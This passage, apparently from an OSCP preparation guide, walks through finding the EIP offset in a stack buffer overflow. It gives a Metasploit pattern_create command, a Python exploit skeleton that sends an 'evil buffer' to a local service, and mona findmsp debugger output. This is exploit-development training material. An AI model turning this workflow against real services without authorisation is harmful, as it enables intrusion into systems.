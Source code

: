 ```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 666 (Change 666 to the value that crashed the server) 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2...
```

Create a new script called exploit.py
You take the unique string character created and that becomes your new buffer in exploit.py 


### Skeleton

```Python
#!/usr/bin/python 
import socket

ip = "127.0.0.1"
port = 9999

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2..."
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(buffer + "\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Script: https://github.com/Lunox-code/OSCP-Preparation-Guide/blob/main/Buffer%20Overflow/exploit.py

Send that payload to the application, make sure it crashed and grab the EIP value in the debugger.

Now, we have 3 methods to find the offset:


## Method 1

Use mona's findmsp command, with the distance argument set to the pattern length.

    ...
    !mona findmsp -distance 666
    
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    **EIP contains normal pattern : 0x78413778 (offset 112)**
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...
NOTE: Mona should display a log window with the output of the command. If not, click "Window" menu and then "Log Data" to view it (Choose "CPU" to switch back to the standard view)
